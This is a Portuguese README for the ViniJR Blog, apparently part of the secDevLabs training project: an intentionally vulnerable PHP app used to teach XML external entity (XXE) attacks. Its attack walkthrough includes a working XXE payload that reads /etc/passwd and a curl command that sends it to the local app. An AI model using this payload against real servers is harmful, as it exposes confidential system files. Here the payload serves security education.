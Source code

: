 # ViniJR Blog

<p align="center">
    <img src="images/blog-fe.png"/></br>
    <a href="README.md"><img height="24" title="Access content in English" src="https://img.shields.io/badge/Access%20content%20in-English-blue"/></a>
</p>

Este é um aplicativo web PHP simples que contém um exemplo de uma vulnerabilidade de configuração incorreta de segurança (XXE) e o objetivo principal deste aplicativo é descrever como um usuário mal-intencionado pode explorá-lo. 

## Index

- [ViniJR Blog](#vinijr-blog)
  - [Index](#index)
  - [O que é XXE?](#o-que-é-xxe)
  - [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
  - [Conheça o app ⚽️](#conheça-o-app-️)
  - [Narrativa de ataque](#narrativa-de-ataque)
  - [Proteger este aplicativo](#proteger-este-aplicativo)
  - [PR Soluções](#pr-soluções)
  - [Contribuição](#contribuição)


## O que é XXE?

Muitos processadores XML mais antigos ou mal configurados avaliam referências de entidades externas em documentos XML. Entidades externas podem ser usadas para divulgar arquivos internos usando o manipulador de URI de arquivo, compartilhamentos de arquivos internos, verificação de porta interna, execução remota de código e ataques de negação de serviço. 

O principal objetivo deste aplicativo é discutir como as vulnerabilidades **XXE** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do secDevLabs sobre como mitigar essas falhas.

## Como inicializar o aplicativo?

Para iniciar este aplicativo **intencionalmente inseguro**, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:
```sh
cd secDevLabs/owasp-top10-2021-apps/a5/vinijr-blog
```

```sh
make install
```

Depois é só visitar [localhost:10004][app] ! 😆

## Conheça o app ⚽️

Para entender corretamente como esse aplicativo funciona, você pode seguir estes passos simples:

- Visite a página inicial!
- Tente enviar uma mensagem ao ViniJR.

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### Campo de entrada não tratado permite que um invasor recupere informações confidenciais

Após analisar as entradas do aplicativo, é possível identificar que a seção "ENTRE EM CONTATO" permite que os usuários enviem mensagens para o servidor, conforme mostra a figura a seguir: 

<img src="images/attack-1.png" align="center"/>

Usar o proxy [Burp Suite](https://portswigger.net/burp) para interceptar esta solicitação (POST para contact.php) revela que a mensagem está sendo construída usando um XML (se você precisar de ajuda para configurar seu proxy, você deve verifique este [guia](https://support.portswigger.net/customer/portal/articles/1783066-configuring-firefox-to-work-with-burp)): 

<img src="images/attack-2.png" align="center"/>

Para replicar este POST usando [curl](https://curl.haxx.se/), crie o seguinte arquivo `payload.xml`:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

E depois rode

```sh
curl -d @payload.xml localhost:10004/contact.php ; echo
```

Verificando o código fonte do [arquivo](../vinijr-blog/app/contact.php), é possível ver como esse XML é carregado no lado do servidor:

<img src="images/attack-3.png" align="center"/>

### 🔥

Como nenhuma validação está sendo usada para evitar que [ENTITIES](https://www.w3schools.com/xml/xml_dtd_entities.asp) sejam enviados para o arquivo PHP, um invasor pode criar o seguinte `evilxml.xml` para executar um XXE :

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<contact>
<name>&xxe;</name>
<email>RAFAEL@EXAMPLE.com</email>
<subject>YOU ROCK</subject>
<message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

E, como mostra a imagem a seguir, é possível perceber que o ataque é bem-sucedido e as informações confidenciais são recuperadas do servidor que hospeda o aplicativo vulnerável:

```sh
curl -d @evilxml.xml localhost:10004/contact.php ; echo
```

<img src="images/attack-4.png" align="center"/>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Extrair dados do servidor através do método mostrado acima.

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [esses pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22ViniJr+Blog%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10004
[secdevlabs]: https://github.com/globocom/secDevLabs
